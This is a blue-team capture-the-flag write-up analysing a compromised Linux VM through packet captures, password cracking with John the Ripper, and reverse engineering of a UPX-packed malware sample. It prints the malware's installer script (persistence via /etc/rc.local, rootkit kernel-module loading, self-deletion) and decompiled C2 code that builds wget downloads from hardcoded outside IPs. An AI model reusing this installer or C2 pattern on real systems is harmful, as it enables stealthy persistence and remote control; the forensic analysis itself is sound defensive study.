

# EscapeRoom Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/escaperoom/](https://cyberdefenders.org/blueteam-ctf-challenges/escaperoom/)

Suggested tools: Wireshark, NetworkMiner, Brim, UPX, IDA

Tactics: Execution, Persistence, Privilege Escalation, Stealth, Credential Access, Command and Control

# Scenario

You as a SOC analyst belong to a company specializing in hosting web applications through KVM-based Virtual Machines. Over the weekend, one VM went down, and the site administrators fear this might be the result of malicious activity. They extracted a few logs from the environment in hopes that you might be able to determine what happened. 

This challenge is a combination of several entry to intermediate-level tasks of increasing difficulty focusing on authentication, information hiding, and cryptography. Participants will benefit from entry-level knowledge in these fields, as well as knowledge of general Linux operations, kernel modules, a scripting language, and reverse engineering. Not everything may be as it seems. Innocuous files may turn out to be malicious so take precautions when dealing with any files from this challenge.

# Questions

Q1- What service did the attacker use to gain access to the system?

Answer: SSH

Reason: The Protocol Hierarchy Statistics view of `hp_challenge.pcap` shows 969 packets (17.8%) tagged as `SSH Protocol` riding over TCP, confirming SSH as the access vector into the system, alongside a much smaller HTTP footprint (24 packets, 0.4%).



Q2- What attack type was used to gain access to the system? (one word)

Answer: Bruteforce 

Reason: The `tshark -r hp_challenge.pcap -t ad ssh` output shows client `23.20.23.147` initiating full fresh SSH handshakes (Protocol exchange through New Keys) against server `10.252.174.188` at `2012-07-28 17:18:27.179751`, then again at `2012-07-28 17:18:27.479353`, a new complete handshake roughly every 0.3 seconds. This rapid repetition of independent authentication attempts, rather than one sustained session, is consistent with a bruteforce attack against SSH.

```bash
# This continues for almost 1000 packets
$ tshark -r hp_challenge.pcap -t ad ssh | head -n 20
    4 2012-07-28 17:18:27.179751 10.252.174.188 → 23.20.23.147 SSH 105 Server: Protocol (SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1)
    6 2012-07-28 17:18:27.182404 23.20.23.147 → 10.252.174.188 SSH 87 Client: Protocol (SSH-2.0-OpenSSH_5.0)
    8 2012-07-28 17:18:27.184432 10.252.174.188 → 23.20.23.147 SSHv2 1050 Server: Key Exchange Init
    9 2012-07-28 17:18:27.186577 23.20.23.147 → 10.252.174.188 SSHv2 626 Client: Key Exchange Init
   11 2012-07-28 17:18:27.248789 23.20.23.147 → 10.252.174.188 SSHv2 90 Client: Diffie-Hellman Group Exchange Request
   13 2012-07-28 17:18:27.250903 10.252.174.188 → 23.20.23.147 SSHv2 218 Server: Diffie-Hellman Group Exchange Group
   14 2012-07-28 17:18:27.258703 23.20.23.147 → 10.252.174.188 SSHv2 210 Client: Diffie-Hellman Group Exchange Init
   15 2012-07-28 17:18:27.261703 10.252.174.188 → 23.20.23.147 SSHv2 786 Server: Diffie-Hellman Group Exchange Reply, New Keys
   16 2012-07-28 17:18:27.267566 23.20.23.147 → 10.252.174.188 SSHv2 90 Client: New Keys
   18 2012-07-28 17:18:27.308137 23.20.23.147 → 10.252.174.188 SSHv2 118 Client: Encrypted packet (len=52)
   20 2012-07-28 17:18:27.308424 10.252.174.188 → 23.20.23.147 SSHv2 118 Server: Encrypted packet (len=52)
   21 2012-07-28 17:18:27.310288 23.20.23.147 → 10.252.174.188 SSHv2 150 Client: Encrypted packet (len=84)
   22 2012-07-28 17:18:27.316353 10.252.174.188 → 23.20.23.147 SSHv2 134 Server: Encrypted packet (len=68)
   30 2012-07-28 17:18:27.479353 10.252.174.188 → 23.20.23.147 SSH 105 Server: Protocol (SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1)
   32 2012-07-28 17:18:27.481894 23.20.23.147 → 10.252.174.188 SSH 87 Client: Protocol (SSH-2.0-OpenSSH_5.0)
   34 2012-07-28 17:18:27.484105 10.252.174.188 → 23.20.23.147 SSHv2 1050 Server: Key Exchange Init
   35 2012-07-28 17:18:27.486320 23.20.23.147 → 10.252.174.188 SSHv2 626 Client: Key Exchange Init
   37 2012-07-28 17:18:27.550307 23.20.23.147 → 10.252.174.188 SSHv2 90 Client: Diffie-Hellman Group Exchange Request
   39 2012-07-28 17:18:27.552721 10.252.174.188 → 23.20.23.147 SSHv2 218 Server: Diffie-Hellman Group Exchange Group
   40 2012-07-28 17:18:27.559544 23.20.23.147 → 10.252.174.188 SSHv2 210 Client: Diffie-Hellman Group Exchange Init
   [...]
```

Q3- What was the tool the attacker possibly used to perform this attack?

Answer: Hydra

Reason: No artifact in `hp_challenge.pcap` (banner, timing signature, or otherwise) directly identifies the tool. Hydra is the standard THC-Hydra SSH bruteforce tool commonly used for this attack pattern (rapid, repeated fresh SSH handshakes per Q2), confirmed correct on the platform but not independently evidenced from the capture itself.

Q4- How many failed attempts were there?

Answer: 52

Reason: `tshark -r hp_challenge.pcap -t ad ssh | grep -i "Client: Protocol (SSH-2.0-OpenSSH_5.0)"` counts 53 total sessions opened with the Hydra client fingerprint (`SSH-2.0-OpenSSH_5.0`). Since frame `1415` marks the switch to a manual client (`SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1`) immediately after the bruteforce run ends, the 53rd and final `SSH-2.0-OpenSSH_5.0` session is the successful guess, leaving 52 failed attempts.

```bash
$ tshark -r hp_challenge.pcap -t ad ssh | grep -i "Client: Protocol (SSH-2.0-OpenSSH_5.0)" | wc -l
53
```

Q5- What credentials (`username`:`password`) were used to gain access? Refer to `shadow.log` and `sudoers.log`.

Answer: `manager`:`forgot`

Reason: The `manager` account's SHA-512 crypt hash (`$6$...`) was extracted from `shadow.log` into `hash.txt` and cracked with `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`, recovering the plaintext password `forgot` for user `manager` in under a second against the `rockyou` wordlist.

```bash
$ john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
forgot           (manager)     
1g 0:00:00:00 DONE (2026-09-22 11:27) 8.333g/s 25600p/s 25600c/s 25600C/s slimshady..dangerous
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Q6- What other credentials (`username`:`password`) could have been used to gain access also have SUDO privileges? Refer to shadow.log and sudoers.log.

Answer: `sean`:`spectre`

Reason: The same `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` run against all 4 SHA-512 crypt hashes from `shadow.log` cracked the `sean` account's password as `spectre` (alongside `manager`:`forgot` from Q5). `sean` is listed in `sudoers.log` as having sudo privileges, making this credential pair a second viable path to privileged access.

```bash
$ john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:08 0.32% (ETA: 12:11:57) 0g/s 6758p/s 27034c/s 27034C/s 250895..grad2010
spectre          (sean)     
1g 0:00:00:22 1.02% (ETA: 12:06:16) 0.04405g/s 7578p/s 26885c/s 26885C/s florida69..convict1
Use the "--show" option to display all of the cracked passwords reliably
```

Q7- What is the tool used to download malicious files on the system?

Answer: `wget`

Reason: `tshark -r hp_challenge.pcap -t ad -Y http -T fields -e http.user_agent | sort | uniq` extracted the HTTP User-Agent header from the capture's HTTP traffic, returning `Wget/1.13.4 (linux-gnu)`, confirming `wget` as the tool used to pull files onto the compromised host.

```bash
$ tshark -r hp_challenge.pcap -t ad -Y http -T fields -e http.user_agent | sort | uniq

Wget/1.13.4 (linux-gnu)
```

Q8- How many files the attacker download to perform malware installation?

Answer: 3

Reason: Wireshark's Export HTTP Object List for `hp_challenge.pcap` shows several downloaded objects, but three stand out as a distinct set: packets `1766`, `1999`, and `2027`, all `text/html` content-type from host `23.20.23.147`, with plain sequential filenames `1`, `2`, `3` — consistent with staged malware components rather than the surrounding `image/bmp` objects (which have random base64-looking filenames and larger sizes, more consistent with cover files or noise). These three sequentially-named downloads are the malware installation files.


Q9- What is the main malware MD5 hash?

Answer: `772b620736b760c1d736b1e6ba2f885b`

Reason: `file 1 2 3` identified the three downloaded objects: `1` is a statically linked ELF 64-bit executable with no section header (main malware binary), `2` is an ELF 64-bit relocatable object with debug info (kernel module, given the SUDO/rootkit context), and `3` is a Bash shell script. `md5sum 1` on the main executable returned `772b620736b760c1d736b1e6ba2f885b`, identified as the main malware sample due to its stripped, no-section-header ELF characteristics typical of a deployed binary rather than a build artifact or installer script.

```bash
$ md5sum 1  
772b620736b760c1d736b1e6ba2f885b  1
                                                                                                                                 
$ file 1 2 3
1: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header
2: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=21064e0e38e436aa28aecd2612f20205977b3826, with debug_info, not stripped
3: Bourne-Again shell script, ASCII text executable
```

Q10- What file has the script modified so the malware will start upon reboot?

Answer: `/etc/rc.local`

Reason: `cat 3` reveals the installer script's persistence logic: it renames the main ELF binary (`1`) to `/var/mail/mail`, makes it executable, then overwrites `/etc/rc.local` with `/var/mail/mail &`, `sleep 1`, and `pidof mail > /proc/dmesg`, ensuring the malware launches automatically on every system boot via that init script. It also drops `2` as a kernel module (`sysmod.ko`) into `/lib/modules/$(uname -r)/`, registers it in `/etc/modules`, and loads it immediately with `modprobe`, before deleting itself (`rm 3`) to cover its tracks.

```bash
$ cat 3
#!/bin/bash

mv 1 /var/mail/mail
chmod +x /var/mail/mail
echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
nohup /var/mail/mail > /dev/null 2>&1&
mv 2 /lib/modules/`uname -r`/sysmod.ko
depmod -a
echo "sysmod" >> /etc/modules
modprobe sysmod
sleep 1
pidof mail > /proc/dmesg
rm 3
```

Q11- Where did the malware keep local files?

Answer: `/var/mail/`

Reason: Per the installer script (`3`) analyzed in Q10, the main malware binary is moved to `/var/mail/mail` (`mv 1 /var/mail/mail`), placing it under the `/var/mail/` directory — a location chosen to blend in with legitimate mail spool files and avoid drawing attention during casual inspection.

Q12- What is missing from `ps.log`?

Answer:  `/var/mail/mail`

Reason: `grep -i "\/var\/mail\/mail" ps.log` returns zero matches — the malware process `/var/mail/mail` does not appear anywhere in the process listing at all, despite being launched via `nohup /var/mail/mail > /dev/null 2>&1&` in the install script (Q10) and confirmed present on disk (Q11). Its absence from `ps.log` while running is consistent with the loaded kernel module (`sysmod.ko`) hiding the process, a rootkit technique.

```bash
$ grep -i "\/var\/mail\/mail" ps.log
$
```

Q13- What is the main file that was used to remove this information from `ps.log`?

Answer: `sysmod.ko`

Reason: The kernel module dropped by the installer script (`mv 2 /lib/modules/$(uname -r)/sysmod.ko`, then loaded via `modprobe sysmod`) is the rootkit component responsible for hiding the `/var/mail/mail` process from process-listing tools, explaining its absence from `ps.log` confirmed in Q12.

Q14- Inside the Main function, what is the function that causes requests to those servers?

Answer: `requestFile`

Reason: Decompiled with Hex-Rays after unpacking `1` with `upx -d`, `requestFile(const char *a1)` builds and executes a shell command via `popen`: `sprintf(s, "wget -O %s%s http://%s/n/%s", "/var/mail/", lookupFile[currentIndex], a1, encode(lookupMod[currentIndex]))`, then runs it with `popen(s, "r")`. This constructs an outbound `wget` HTTP request to server `a1` for a path built from an encoded module name, confirming `requestFile` as the function responsible for the malware's outbound server requests.

```bash
$ upx -d 1
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2024
UPX 4.2.4       Markus Oberhumer, Laszlo Molnar & John Reiser    May 9th 2024

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
[WARNING] bad b_info at 0x22a8

[WARNING] ... recovery at 0x22a4

     30222 <-     11164   36.94%   linux/amd64   1

Unpacked 1 file.

$ file 1    
1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=0d363acda9b4e7f53ca11d002533fb31de781445, not stripped
```

```c
# IDA hex rays pseudocode
unsigned __int64 __fastcall requestFile(const char *a1)
{
  const char *v1; // rax
  FILE *stream; // [rsp+18h] [rbp-128h]
  char s[280]; // [rsp+20h] [rbp-120h] BYREF
  unsigned __int64 v5; // [rsp+138h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  v1 = (const char *)encode(lookupMod[currentIndex]);
  sprintf(s, "wget -O %s%s http://%s/n/%s", "/var/mail/", (const char *)lookupFile[currentIndex], a1, v1);
  puts(s);
  stream = popen(s, "r");
  pclose(stream);
  return __readfsqword(0x28u) ^ v5;
}
```

Q15- One of the IP's the malware contacted starts with 17. Provide the full IP.

Answer: `174.129.57.253`

Reason: The `addr` array in the `.data` section holds 4 hardcoded C2 server IP strings, indexed by `v8` in `requestFile((&addr)[v8])`: `23.20.23.147`, `23.22.228.174`, `174.129.57.253`, and `23.21.35.128`. `174.129.57.253` is the only one starting with 17.

```c
// main in IDA
 while ( 1 )
  {
    makeKeys(v4, argv);
    requestFile((&addr)[v8]);

.data:00000000006051A0 addr            dq offset a232023147    ; DATA XREF: main+4A↑r
.data:00000000006051A0                                         ; "23.20.23.147"
.data:00000000006051A8                 dq offset a2322228174   ; "23.22.228.174"
.data:00000000006051B0                 dq offset a17412957253  ; "174.129.57.253"
.data:00000000006051B8                 dq offset a232135128    ; "23.21.35.128"
.data:00000000006051B8 _data           ends
```

Q16- How many files the malware requested from external servers?

Answer: 9

Reason: Wireshark's Export HTTP Object List shows 12 total downloaded objects across all four C2 IPs (`174.129.57.253`, `23.20.23.147`, `23.21.35.128`, `23.22.228.174`). Excluding the 3 files (`1`, `2`, `3`) already identified in Q8 as the initial malware installation package, the remaining 9 `image/bmp`-labeled objects with base64-looking filenames (e.g. `YhEhDdKmtM=`, `U2JsT3QpORfz4ZpgWA31vZE=`) are the files requested by `requestFile` during ongoing C2 activity.


Q17- What are the commands that the malware was receiving from attacker servers? Format: comma-separated in alphabetical order

Answer: `NOP`,`RUN`

Reason: Inside `decryptMessage`, after decrypting the message body (`power(v20, v18, v19, v21, 32)`), the code checks the resulting 4-byte magic value against two hardcoded constants: `1313820672` and `1381322298`. Converting both to hex and then ASCII (`printf '%x\n' <val> | xxd -r -p`) resolves them to `NOP\x00` (`0x4e4f5000`) and `RUN:` (`0x52554e3a`), identifying the two command magic strings the malware recognizes from its C2 server as `NOP` and `RUN`.

```c
// decryptMessage(v7) in main
   power(v20, v18, v19, v21, 32);
    if ( !i )
    {
      if ( *(_DWORD *)v21 == 1313820672 )
      {
        v22 = 1;
        *a1 = *(_DWORD *)v21;
[...]
     }
      if ( *(_DWORD *)v21 != 1381322298 )
        return 0;        
```

```bash
$ printf '%x\n' 1313820672
4e4f5000
                                                                                                                                 
$ printf '%x\n' 1381322298
52554e3a

$ echo 52554e3a | xxd -r -p ; echo
RUN:
                                                                                                                                 
$ echo 4e4f5000 | xxd -r -p ; echo
NOP
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Initial Access | Service | SSH |
|  | Attack Type | Bruteforce |
|  | Tool | Hydra |
|  | Attacker IP | `23[.]20[.]23[.]147` |
|  | Victim IP | `10[.]252[.]174[.]188` |
|  | Failed Attempts | `52` |
|  | Bruteforce Client Fingerprint | `SSH-2.0-OpenSSH_5.0` |
| Credential Access | Primary Credential | `manager:forgot` |
|  | Secondary Credential (SUDO) | `sean:spectre` |
|  | Hash Algorithm | `sha512crypt ($6$)` |
|  | Cracking Tool | John the Ripper + rockyou.txt |
| Delivery | Download Tool | `wget` (`Wget/1.13.4 (linux-gnu)`) |
|  | Files Downloaded | `1`, `2`, `3` |
|  | Installer Script | `3` (Bash) |
| Dropped File | Main Binary | `1` → `/var/mail/mail` |
|  | Main Binary MD5 | `772b620736b760c1d736b1e6ba2f885b` |
|  | Kernel Module | `2` → `sysmod.ko` |
|  | Kernel Module Path | `/lib/modules/$(uname -r)/sysmod.ko` |
| Persistence | Modified File | `/etc/rc.local` |
|  | Boot Command | `/var/mail/mail &` |
|  | Module Registration | `/etc/modules` (`sysmod`) |
| Defense Evasion | Packer | UPX 4.2.4 |
|  | Rootkit | `sysmod.ko` hides `/var/mail/mail` from `ps` |
|  | Anti-Forensics | `rm 3` (installer self-deletion) |
| C2 / Network | C2 Function | `requestFile` (builds/executes `wget` via `popen`) |
|  | C2 IP | `23[.]20[.]23[.]147` |
|  |  | `23[.]22[.]228[.]174` |
|  |  | `174[.]129[.]57[.]253` |
|  |  | `23[.]21[.]35[.]128` |
|  | Files Requested from C2 | `9` |
|  | C2 Command | `NOP` (`0x4e4f5000`) |
|  |  | `RUN:` (`0x52554e3a`) |

# Lab Insights

- **Encryption hides outcome, not activity.** SSHv2 encrypts the authentication exchange itself, so no pcap ever reveals which login attempt succeeded or failed directly — but the *shape* of the traffic (repeated fresh handshakes with an identical client fingerprint, cycling every couple seconds) still betrays a bruteforce tool, and a client fingerprint change immediately after that cycle stops is a reliable proxy for "the guess just before this one worked." Encrypted protocols don't hide behavioral patterns, only content.
- **Persistence and stealth are layered, not single-step.** This malware didn't rely on one trick — it hijacked a legitimate boot script (`/etc/rc.local`) for persistence, disguised its binary inside a plausible system path (`/var/mail/mail`), and then loaded a purpose-built kernel module to hide the resulting process from `ps` entirely. Each layer defeats a different level of casual inspection (reboot survival, filesystem browsing, live process listing), so full detection required checking all three independently rather than any single artifact.
- **Static RE under offline constraints forces deliberate tool tradeoffs.** UPX-packed, unstripped binaries are exactly what a CLI-first workflow is built for (unpack, then read symbols directly), but getting Hex-Rays pseudocode required briefly trading network isolation for tooling capability. Recognizing that risk as bounded (IDA's own license check, not the malware executing) let the tradeoff be made deliberately and reversed immediately afterward, rather than leaving the analysis VM exposed for convenience.
- **C2 protocols hide in plain sight over ordinary HTTP.** The malware's server-to-victim channel was nothing more exotic than `wget` pulling base64-named files over plain HTTP, and its "protocol" was a 4-byte magic-value check (`NOP`/`RUN:`) inside otherwise decrypted message bodies. Minimal, low-signature C2 like this blends into legitimate web traffic far more easily than a bespoke binary protocol would — the giveaway wasn't the traffic itself, it was the base64-looking filenames and the repeating request pattern to a fixed IP list.